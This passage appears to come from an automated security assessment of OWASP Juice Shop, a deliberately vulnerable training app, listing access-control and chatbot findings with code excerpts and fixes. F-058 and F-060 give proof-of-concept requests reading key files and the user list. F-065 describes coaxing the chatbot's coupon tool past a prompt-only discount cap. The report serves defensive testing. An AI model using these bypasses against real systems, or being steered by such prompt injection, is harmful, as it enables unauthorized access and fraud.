**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant reset-response:** not attempted

> not tested: safe mode; every declared variant needs a state change

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Chat endpoint has no request or consumption limits

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** Multiple locations (2)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-014](#w-014) - Chat endpoint has no request or consumption limits (`chat.ts:191`)

**Instances (2):** `routes/chat.ts`: 203, 191

**Issue:** LLM10: unauthenticated POST `/rest/chat` forwards arbitrary-length message history to the paid provider with no rate limit, size cap or output token limit; only `stepCountIs(10)` bounds tool steps, so callers can exhaust quota and cost.

**Evidence:** ✓ verified

```typescript
routes/chat.ts
  189 │
  190 │     const model = config.get<string>('application.chatBot.model')
→ 191 │     const messages = req.body?.messages ?? []
  192 │     const userName = await getUserNameFromToken(req)
  193 │
```

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ◕ [M-066](#m-066) — Rate-limit and lock out repeated authentication attempts (🟠 [F-049](#f-049))

**Classification:** Denial of Service · STRIDE: Denial of Service · [CWE-770](https://cwe.mitre.org/data/definitions/770.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · Basket item add checks different BasketId than it

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/basketItems.ts:42`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** An authenticated user posts JSON with duplicate BasketId keys: the first is own basket and passes the check, the last is a victim's basket and is stored, adding items to another user's basket.

**Evidence:** ✓ verified

```typescript
  40 │       const basketItem = {
  41 │         ProductId: productIds[productIds.length - 1],
→ 42 │         BasketId: basketIds[basketIds.length - 1],
  43 │         quantity: quantities[quantities.length - 1]
  44 │       }
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◕ [M-067](#m-067) — Validate the BasketId that is actually stored

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Review author taken from request body

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/createProductReviews.ts:26`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** An unauthenticated caller sends PUT `/rest/products/:id/reviews` with any author value; the handler stores `req.body.author` as the review author without comparing it to the session user, allowing forged reviews attributed to other users.

**Evidence:** ✓ verified

```typescript
  24 │         product: req.params.id,
  25 │         message: req.body.message,
→ 26 │         author: req.body.author,
  27 │         likesCount: 0,
  28 │         likedBy: []
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◕ [M-068](#m-068) — Derive review author from authenticated session

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant v1:** not attempted

> not tested: safe mode; without a declared test resource the Verifier creates one, which writes

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · Review update lacks ownership check

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/updateProductReviews.ts:18`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** Any logged-in user sends PATCH `/rest/products/reviews` with another user's review id (or an operator object matching many reviews); the handler updates by body id without comparing the author, and `multi:true` allows bulk overwrite.

**Evidence:** ✓ verified

```typescript
  16 │     const user = security.authenticatedUsers.from(req) // vuln-code-snippet vuln-line forgedReviewChallenge
  17 │     db.reviewsCollection.update( // vuln-code-snippet neutral-line forgedReviewChallenge
→ 18 │       { _id: req.body.id }, // vuln-code-snippet vuln-line noSqlReviewsChallenge forgedReviewChallenge
  19 │       { $set: { message: req.body.message } },
  20 │       { multi: true } // vuln-code-snippet vuln-line noSqlReviewsChallenge
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◕ [M-069](#m-069) — Bind review updates to the authenticated author

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · Recycle records readable by any caller by ID

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:388`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** GET `/api/Recycles/:id` is registered with the `getRecycleItem` handler only. It has no authentication and no ownership filter, so an unauthenticated caller can enumerate IDs and read other users' recycling records, including UserId and AddressId.

**Evidence:** ✓ verified

```typescript
  386 │   app.post('/api/Recycles', security.isAuthorized())
  387 │   /* Challenge evaluation before finale takes over */
→ 388 │   app.get('/api/Recycles/:id', recycles.getRecycleItem())
  389 │   app.put('/api/Recycles/:id', security.denyAll())
  390 │   app.delete('/api/Recycles/:id', security.denyAll())
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◕ [M-070](#m-070) — Require authentication and scope recycle lookups to caller

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01)

<a id="t-057"></a><a id="f-057"></a>
#### F-057 · Deluxe upgrade skips payment verification

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/deluxe.ts:43`

**Found by:** verification ([TC-AUTHZ-02](#tc-authz-02))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** The upgrade handler checks the wallet or card only when `paymentMode` is 'wallet' or 'card'. Any other or missing value skips every payment check, and the handler still sets the role to deluxe and issues a token. A logged-in customer gets the paid role for free.

**Evidence:** ✓ verified

```typescript
  41 │
  42 │       try {
→ 43 │         const updatedUser = await user.update({ role: security.roles.deluxe, deluxeToken: security.deluxeToken(user.email) })
  44 │         challengeUtils.solveIf(challenges.freeDeluxeChallenge, () => {
  45 │           return security.verify(utils.jwtFrom(req)) && req.body.paymentMode !== 'wallet' && req.body.paymentMode !== 'card'
```

**Fix:** ◕ [M-071](#m-071) — Require a verified payment before the deluxe upgrade

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-02](#tc-authz-02)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant v-1:** not attempted

> not tested: safe mode; every request the assessment names writes

<a id="t-058"></a><a id="f-058"></a>
#### F-058 · Encryption keys and logs served without authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:278`

**Found by:** verification ([TC-AUTHZ-02](#tc-authz-02))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** Unauthenticated callers request `/encryptionkeys/:file` and `/support/logs/:file`; no auth or role middleware precedes the handlers, disclosing keys and access logs.

**Evidence:** ✓ verified

```typescript
  276 │   /* /encryptionkeys directory browsing */
  277 │   app.use('/encryptionkeys', serveIndexMiddleware, serveIndex('encryptionkeys', { icons: true, view: 'details' }))
→ 278 │   app.use('/encryptionkeys/:file', serveKeyFiles())
  279 │
  280 │   /* /logs directory browsing */ // vuln-code-snippet neutral-line accessLogDisclosureChallenge
```

**Fix:** ◕ [M-072](#m-072) — Restrict key and log routes to administrators

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-02](#tc-authz-02)

##### Dynamic verification

**Verdict:** confirmed (medium) · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (confirmed; the likelihood was already High or above).

> Unauthenticated GET /encryptionkeys/premium.key, a non-public key file, returned 200 with 50 bytes, identical to the signed-in account-1 answer. A random path next to it returned 404. This addresses QA's public-key objection for the encryptionkeys route. The /support/logs route was not tested.

Application screenshot unavailable: the compared answers are not shown (VER-057).

###### Proof of concept

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| 2 | `GET /encryptionkeys/jwt.pub` | anonymous | 200, 248 bytes |
| 4 | `GET /encryptionkeys/jwt.pub` | account-1 | 200, 248 bytes |
| 5 | `GET /encryptionkeys/jwt.pub` | anonymous | 200, 248 bytes |
| 6 | `GET /encryptionkeys/vrf6bbb5b081502e6b2` | anonymous | 404, 1074 bytes |
| **11** | `GET /encryptionkeys/premium.key` | account-1 | 200, 50 bytes |
| **12** | `GET /encryptionkeys/premium.key` | anonymous | 200, 50 bytes |
| **13** | `GET /encryptionkeys/vrf6bbb5b086970275e` | anonymous | 404, 1074 bytes |

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-058-poc.har`.

**Normal request · step 11** (signed-in account) · `GET /encryptionkeys/premium.key` as account-1 → 200, 50 bytes

```http
GET /encryptionkeys/premium.key HTTP/1.1
authorization: ⟦[identity account-1]⟧

HTTP/1.1 200 OK
content-type: application/octet-stream

[body not kept: compared in code only (VER-057), 50 bytes]
```

**Control · step 13** (random path next to it, without login) · `GET /encryptionkeys/vrf6bbb5b086970275e` as anonymous → 404, 1074 bytes

```http
GET /encryptionkeys/vrf6bbb5b086970275e HTTP/1.1

HTTP/1.1 404 Not Found
content-type: text/html; charset=utf-8

[body not kept: compared in code only (VER-057), 1074 bytes]
```

**Attack · step 12** (without login) · `GET /encryptionkeys/premium.key` as anonymous → 200, 50 bytes

```text
Compared with the normal request in step 11: same status 200, the identical answer, compared in code over the whole body, which is not kept.
```

```http
GET /encryptionkeys/premium.key HTTP/1.1

HTTP/1.1 200 OK
content-type: application/octet-stream

[body not kept: compared in code only (VER-057), 50 bytes]
```

###### Technical QA

clear. 2 technical reviews and 1 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
No unresolved technical objections in the reviewed attempts.
```

###### Evidence review

Clear after 1 of 2 correction rounds and 2 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

<a id="t-059"></a><a id="f-059"></a>
#### F-059 · Sensitive Routes Registered Without Authentication Middleware

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** Multiple locations (3)

**Reliability:** Low. Not confirmed, this may be a false positive: No middleware at registration, but the handler may check a cookie/token itself; the handler source was not supplied.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Instances (3):** `server.ts`: 310, 311, 641

**Issue:** The route registration carries no authentication marker, so an anonymous attacker may call this state-changing operation on a sensitive resource directly, unless a downstream check the scanner cannot see stops it.

**Evidence:** ◌ ambiguous

```typescript
server.ts
  308 │   /* File Upload */
  309 │   app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handleYamlUpload)
→ 310 │   app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), utils.asyncHandler(profileImageFileUpload()))
  311 │   app.post('/profile/image/url', uploadToMemory.single('file'), utils.asyncHandler(profileImageUrlUpload()))
  312 │   app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), utils.asyncHandler(addMemory()))
```

**Fix:** ◑ [M-011](#m-011) — Manual review: verify Sensitive Routes Registered Without Authentication Middleware · ◕ [M-073](#m-073) — Enforce server-side authorization on every endpoint (🟠 [F-059](#f-059))

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHN-01](#tc-authn-01) · Rules: AUTHZ-008

<a id="t-060"></a><a id="f-060"></a>
#### F-060 · Any authenticated user can list all user accounts

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:363`

**Found by:** verification ([TC-AUTHZ-02](#tc-authz-02))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** GET `/api/Users` is guarded only by `isAuthorized`, which checks token validity. Any customer can fetch the generated list of all accounts, including emails and roles.

**Evidence:** ✓ verified

```typescript
  361 │   app.use('/api/Feedbacks/:id', security.isAuthorized())
  362 │   /* Users: Only POST is allowed in order to register a new user */
→ 363 │   app.get('/api/Users', security.isAuthorized())
  364 │   app.route('/api/Users/:id')
  365 │     .get(security.isAuthorized())
```

**Fix:** ◕ [M-074](#m-074) — Require an admin role for user listing

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-02](#tc-authz-02)

##### Dynamic verification

**Verdict:** confirmed (medium) · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (confirmed; the likelihood was already High or above).

> GET /api/Users returned 200 with the full account list (ids, emails, roles) for admin-1 (step 7). The normal account account-1 got the identical body, with the same SHA-256 and length 6911 (step 8). The request with no credentials got 401 (step 9). So any authenticated user can list all accounts.

Application screenshot unavailable: no application page showing the confirmed effect was captured; for API-only findings the recorded HTTP exchanges are the primary evidence.

###### Proof of concept

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| 2 | `GET /api/Users` | account-1 | 200, 6911 bytes |
| 3 | `GET /api/Users` | anonymous | 401, 972 bytes |
| 4 | `GET /api/vrff5aa4e6c7a151b9e` | anonymous | 500, 2448 bytes |
| **7** | `GET /api/Users` | admin-1 | 200, 6911 bytes |
| **8** | `GET /api/Users` | account-1 | 200, 6911 bytes |
| **9** | `GET /api/Users` | anonymous | 401, 972 bytes |

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-060-poc.har`.

**Normal request · step 7** (privileged account) · `GET /api/Users` as admin-1 → 200, 6911 bytes

```http
GET /api/Users HTTP/1.1
authorization: ⟦[identity admin-1]⟧

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

Selected JSON fields (other content in HAR):
/data/0/id: 1
/data/0/role: "admin"
/data/1/id: 2
/data/1/role: "customer"
/data/2/id: 3
/data/2/role: "customer"
/data/3/id: 4
```

**Control · step 9** (without login) · `GET /api/Users` as anonymous → 401, 972 bytes

```http
GET /api/Users HTTP/1.1

HTTP/1.1 401 Unauthorized
content-type: text/html; charset=utf-8

Visible text: UnauthorizedError: No Authorization header was found OWASP Juice Shop (Express ^4.22.1) 401 UnauthorizedError: No Authorization header was found
```

**Attack · step 8** (normal account calls the privileged function) · `GET /api/Users` as account-1 → 200, 6911 bytes

```text
Compared with the normal request in step 7: same status 200, the identical answer, compared in code over the whole body.
```

```http
GET /api/Users HTTP/1.1
authorization: ⟦[identity account-1]⟧

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

Selected JSON fields (other content in HAR):
/data/0/id: 1
/data/0/role: "admin"
/data/1/id: 2
/data/1/role: "customer"
/data/2/id: 3
/data/2/role: "customer"
/data/3/id: 4
```

###### Technical QA

clear. 1 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
No unresolved technical objections in the reviewed attempts.
```

###### Evidence review

Clear after 1 of 2 correction rounds and 2 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

<a id="t-061"></a><a id="f-061"></a>
#### F-061 · Any authenticated user can create products with chosen prices

**Severity:** 🟠 High - verified attack-chain keystone in AC-B-007 (User misuses a privileged function for another purpose); see [§9](#9-abuse-cases)  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:369`

**Found by:** verification ([TC-AUTHZ-02](#tc-authz-02), [TC-AUTHZ-03](#tc-authz-03))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** POST `/api/Products` requires only `isAuthorized`. A customer can create catalog entries with arbitrary name, price and description through the generated endpoint, with no role check or field allow-list.

**Evidence:** ✓ verified

```typescript
  367 │     .delete(security.denyAll())
  368 │   /* Products: Only GET is allowed in order to view products */ // vuln-code-snippet neutral-line changeProductChallenge
→ 369 │   app.post('/api/Products', security.isAuthorized()) // vuln-code-snippet neutral-line changeProductChallenge
  370 │   // app.put('/api/Products/:id', security.isAuthorized()) // vuln-code-snippet vuln-line changeProductChallenge
  371 │   app.delete('/api/Products/:id', security.denyAll())
```

**Fix:** ◕ [M-075](#m-075) — Restrict product creation to administrators

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-02](#tc-authz-02), [TC-AUTHZ-03](#tc-authz-03)

<a id="t-063"></a><a id="f-063"></a>
#### F-063 · Unauthenticated product update

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:501`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-02](#tc-authz-02), [TC-AUTHZ-03](#tc-authz-03))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** The `isAuthorized` guard for PUT `/api/Products/:id` is commented out, so finale serves the update with no login. Anyone can send a PUT body changing price, `deluxePrice`, name or description of any product.

**Evidence:** ✓ verified

```typescript
  499 │
  500 │   for (const { name, exclude, model, include } of autoModels) {
→ 501 │     const resource = finale.resource({
  502 │       model,
  503 │       endpoints: [`/api/${name}s`, `/api/${name}s/:id`],
```

**Fix:** ◕ [M-076](#m-076) — Guard product updates with an admin role check

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-02](#tc-authz-02), [TC-AUTHZ-03](#tc-authz-03)

<a id="t-064"></a><a id="f-064"></a>
#### F-064 · Duplicate JSON key bypasses basket ownership check

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/basketItems.ts:37`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** `addBasketItem` checks `basketIds[0]` against the user's basket but saves the last BasketId value from the parsed body. A body with two BasketId keys passes the check with the own id and adds items to another user's basket.

**Evidence:** ✓ verified

```typescript
  35 │
  36 │     const user = security.authenticatedUsers.from(req)
→ 37 │     if (user && basketIds[0] && basketIds[0] !== 'undefined' && Number(user.bid) != Number(basketIds[0])) { // eslint-disable-line eqeqeq
  38 │       res.status(401).send('{\'error\' : \'Invalid BasketId\'}')
  39 │     } else {
```

**Fix:** ◕ [M-077](#m-077) — Use one parsed BasketId for check and save

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-863](https://cwe.mitre.org/data/definitions/863.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-065"></a><a id="f-065"></a>
#### F-065 · Chatbot coupon tool lacks server-side authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/chat.ts:184`

**Found by:** survey and verification ([TC-AI-01](#tc-ai-01), [TC-AI-03](#tc-ai-03))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** The `generateCoupon` tool (`routes/chat.ts:184`) accepts any number as discount. The 10% cap and eligibility rules exist only in prompt text, and the zod schema has no range check. `getOrderById` enforces ownership.

**Evidence:** ✓ verified

```typescript
  182 │           challengeUtils.solveIf(challenges.chatbotPromptInjectionChallenge, () => discount >= 10) // vuln-code-snippet hide-line
  183 │           challengeUtils.solveIf(challenges.chatbotGreedyInjectionChallenge, () => discount >= 50) // vuln-code-snippet hide-line
→ 184 │           const couponCode = security.generateCoupon(discount) // vuln-code-snippet vuln-line chatbotPromptInjectionChallenge
  185 │           return { couponCode, discount } // vuln-code-snippet neutral-line chatbotPromptInjectionChallenge
  186 │         }
```

**Fix:** ◕ [M-078](#m-078) — Enforce coupon cap and eligibility

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-863](https://cwe.mitre.org/data/definitions/863.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AI-01](#tc-ai-01), [TC-AI-03](#tc-ai-03)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; every request the assessment names writes

<a id="t-066"></a><a id="f-066"></a>
#### F-066 · Registration accepts privileged role from request body

**Severity:** 🟠 High - elevated to Critical: reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:408`

**Found by:** verification ([TC-AUTHZ-03](#tc-authz-03))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-008](#w-008) - Privileged attributes lack an enforced write allowlist

**Issue:** An attacker posts to `/api/Users` with a role field set to admin; the pre-handlers only trim fields and do not strip role, and the generated finale resource creates the user from the body.

**Evidence:** ✓ verified

```typescript
  406 │   app.post('/api/Feedbacks', verify.captchaBypassChallenge())
  407 │   /* User registration challenge verifications before finale takes over */
→ 408 │   app.post('/api/Users', (req: Request, res: Response, next: NextFunction) => {
  409 │     if (req.body.email !== undefined && req.body.password !== undefined && req.body.passwordRepeat !== undefined) {
  410 │       if (req.body.email.length !== 0 && req.body.password.length !== 0) {
```

**Fix:** ● [M-079](#m-079) — Restrict registration fields with an allow-list

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-03](#tc-authz-03)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant v1:** not attempted

> no supported proof method for CWE-915

<a id="t-067"></a><a id="f-067"></a>
#### F-067 · Mass assignment of role on user registration

**Severity:** 🟠 High - reaches a privileged operation on an unauthenticated endpoint; elevated to Critical as a verified attack-chain keystone in AC-T-004 (Privilege Escalation via Mass-Assignment on Registration); see [§9](#9-abuse-cases)  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:420`

**Found by:** survey and verification ([TC-AUTHZ-03](#tc-authz-03))

**Reliability:** Low. Not confirmed, this may be a false positive: No role stripping shown in the preceding middleware, but `registerAdminChallenge` body and User model validation are not in the supplied source.

**Weakness:** [W-008](#w-008) - Privileged attributes lack an enforced write allowlist

**Issue:** An unauthenticated attacker POSTs `/api/Users` with email, password, `passwordRepeat` and `role=admin` (`server.ts:420`). The only middleware on the route, `verify.registerAdminChallenge`, merely detects the value and calls next.

Password and `totpSecret` are excluded from output only; no server-side stripping of role exists.

**Evidence:** ◌ ambiguous

```typescript
  418 │     next()
  419 │   })
→ 420 │   app.post('/api/Users', verify.registerAdminChallenge())
  421 │   app.post('/api/Users', verify.passwordRepeatChallenge()) // vuln-code-snippet hide-end
  422 │   app.post('/api/Users', verify.emptyUserRegistration())
```

**Fix:** ◑ [M-012](#m-012) — Manual review: verify Mass assignment of role on user registration · ● [M-080](#m-080) — Strip role from registration input

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-03](#tc-authz-03) · walkthrough [Walkthrough §3.5](#35-mass-assignment-of-role-on-user-registration-in-juice-shop-express-server)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict inconclusive does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> no supported proof method for CWE-915

**Variant variant-002:** not attempted

> no supported proof method for CWE-915

<a id="t-068"></a><a id="f-068"></a>
#### F-068 · User registration accepts a client-chosen role

**Severity:** 🟠 High - reaches a privileged operation on an unauthenticated endpoint; elevated to Critical as a verified attack-chain keystone in AC-B-002 (User gains more rights than intended); see [§9](#9-abuse-cases)  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:422`

**Found by:** verification ([TC-AUTHZ-03](#tc-authz-03))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** POST `/api/Users` is a generated create resource, and no handler removes role from the body. The model accepts 'admin' for role. An anonymous attacker registers with role admin and logs in as an administrator.

**Evidence:** ✓ verified

```typescript
  420 │   app.post('/api/Users', verify.registerAdminChallenge())
  421 │   app.post('/api/Users', verify.passwordRepeatChallenge()) // vuln-code-snippet hide-end
→ 422 │   app.post('/api/Users', verify.emptyUserRegistration())
  423 │   /* Unauthorized users are not allowed to access B2B API */
  424 │   app.use('/b2b/v2', security.isAuthorized())
```

**Fix:** ● [M-081](#m-081) — Allow-list registration fields and force the customer role

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-03](#tc-authz-03) · walkthrough [Walkthrough §3.6](#36-user-registration-accepts-a-client-chosen-role-in-juice-shop-express-server)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant v-1:** not attempted

> no supported proof method for CWE-915

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Non-cryptographic RNG for a secret/token

**Severity:** 🟠 High  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:53`

**Reliability:** Low. Not confirmed, this may be a false positive: `Math.random` is used as a deny-all JWT secret, a weak source. It is not a session, reset or OTP token, and practical forgery is unproven.

**Weakness:** [W-044](#w-044) - Security-sensitive data uses weak cryptographic primitives

**Issue:** A predictable token/secret lets an attacker guess or brute-force session identifiers, reset links, or OTPs.

**Evidence:** ◌ ambiguous

```typescript
  51 │
  52 │ export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
